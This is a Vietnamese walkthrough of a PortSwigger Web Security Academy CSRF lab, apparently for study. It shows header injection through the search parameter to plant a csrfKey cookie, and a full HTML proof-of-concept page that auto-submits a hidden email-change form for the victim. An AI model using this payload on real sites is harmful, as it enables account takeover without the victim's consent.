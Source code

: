 ### Web Academy PortSwigger
* Lab: [Lab: CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)
* Descript: This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.
* To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
* Solved and Writeup by Tung !
  
* ![Ảnh chụp màn hình 2023-11-30 095922](https://hackmd.io/_uploads/Hy4a9_BBT.png)

Đọc qua mô tả và tiêu đề, chức năng thay đổi email của lab này dễ bị tấn công bởi CSRF. Nó sử dụng token CSRF nhưng chúng không được tích hợp hoàn toàn vào hệ thống xử lý phiên của trang web.

Ta cũng có 2 tài khoản được cung cấp là `wiener` , `carlos` , Access now!

![Ảnh chụp màn hình 2023-11-30 100726](https://hackmd.io/_uploads/H18jCuSHp.png)

Giao diện quen thuộc như trên , để test chức năng change email , trước tiên đăng nhập với `wiener`:  

![Ảnh chụp màn hình 2023-11-30 100940](https://hackmd.io/_uploads/H1IbJFrBp.png)

Mở BurpSuite lên ,chặn request change email ,chuyển đến repeater :

![Ảnh chụp màn hình 2023-11-30 101439](https://hackmd.io/_uploads/BJxFkFrHa.png)

---
![Ảnh chụp màn hình 2023-11-30 102147](https://hackmd.io/_uploads/B1LkeKSSp.png)

Ta thấy phần `Cookie` có cả `session` và `csrfKey` , phần thân chứa `csrf` . 
Sau một hồi kiểm tra , ta thấy khi thay đổi giá trị `crsfKey` ,`crsf` , phản hồi trả về lỗi *Invalid CSRF token*: 

![Ảnh chụp màn hình 2023-11-30 102739](https://hackmd.io/_uploads/Bkh9WKBBT.png)

Phản hồi khi ta chỉ thay đổi `session` : 

![Ảnh chụp màn hình 2023-11-30 102654](https://hackmd.io/_uploads/B11pWKBBa.png)

Có thể thấy , ta sẽ bị chuyển đến trang `login` để đăng nhập và được tạo một session mới !
Dựa theo đề bài , ta có suy luận có thể  `csrf token` và `session` không ràng buộc với nhau. Ta có ý tưởng lấy `crsf token` của tài khác để đăng nhập :  

![Ảnh chụp màn hình 2023-11-30 103354](https://hackmd.io/_uploads/H1gJQYrrp.png)

Đăng nhập với user `carlos` !

---
![Ảnh chụp màn hình 2023-11-30 103416](https://hackmd.io/_uploads/SJgrAGKHra.png)

Ta lấy được crsf token của `carlos` :  

![Ảnh chụp màn hình 2023-11-30 103712](https://hackmd.io/_uploads/BJDNNYHB6.png)

![Ảnh chụp màn hình 2023-11-30 103828](https://hackmd.io/_uploads/ryVBEYHrp.png)

Sử dụng crsf token (của người dùng `carlos`) này trong repeater request của tài khoản `wiener` :  

![Ảnh chụp màn hình 2023-11-30 104255](https://hackmd.io/_uploads/ryIGSKHBp.png)
Ta thấy request được chấp nhận và không trả về lỗi!
Do `csrfKey` nằm trong phần `Head` request , ta phải tìm cách để thay đổi `csrfKey` trên tài khoản nạn nhân ! 
Xem qua `search function` :  

![Ảnh chụp màn hình 2023-11-30 104847](https://hackmd.io/_uploads/S1F0PFrra.png)
Thử search Nothing! 

![Ảnh chụp màn hình 2023-11-30 105935](https://hackmd.io/_uploads/BkyytKBrp.png)

Ta thấy không có csrf đính kèm trong body GET request , từ lỗ hổng này , ta chèn sử dụng Set-Cookie nhằm thay đổi `csrfKey` :  
`/?search=Nothing
Set-Cookie: csrfKey=V0GEMWnzSuLcPXgbYHa6KlhFqkoR8mhj (crsfKey của carlos); SameSite=None
`

*(SameSite=None:  cho phép trình duyệt gửi cookie đó cùng với các yêu cầu từ các trang web khác)*

Tiến hành tạo link web lừa nạn nhân nhấp vào , sau đó có thể thay đổi email nạn nhân : 

```
<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <form action="https://0ae600a403cfd8df84cc549200f000ee.web-security-academy.net/my-account/change-email" method="POST">

      <input type="hidden" name="email" value="occupied1234@gmail.com" />

      <input type="hidden" name="csrf" value="ZiMozVd56a2rrssHNzCTU66nYxKYThq3" />

      <input type="submit" value="Submit request" />

    </form>

<img src="https://0ae600a403cfd8df84cc549200f000ee.web-security-academy.net/?search=Nothing
Set-Cookie: csrfKey=V0GEMWnzSuLcPXgbYHa6KlhFqkoR8mhj; SameSite=None" onerror="document.forms[0].submit()">

  </body>

</html>
```
Ta gửi tới người dùng `wiener` , dùng `crsfKey` và `csrf` của người dùng `carlos` , tạo POST request để thay đổi email thành `occupied1234@gmail.com` ,paste đoạn html trên vào body trên `server exloit` :  

![Ảnh chụp màn hình 2023-11-30 115634](https://hackmd.io/_uploads/rkg8IqBBp.png)

*Deliver exploit to victim*
And... 

![Ảnh chụp màn hình 2023-11-30 115032](https://hackmd.io/_uploads/B14oL5rHp.png)

Lab done! Ta đã thay đổi thành công email nạn nhân thành `occupied1234@gmail.com` 

*Note: Những cuộc tấn công CRSF chỉ khả dụng khi người dùng nạn nhân hiện đã đăng nhập và nhấp vào liên kết độc hại.*

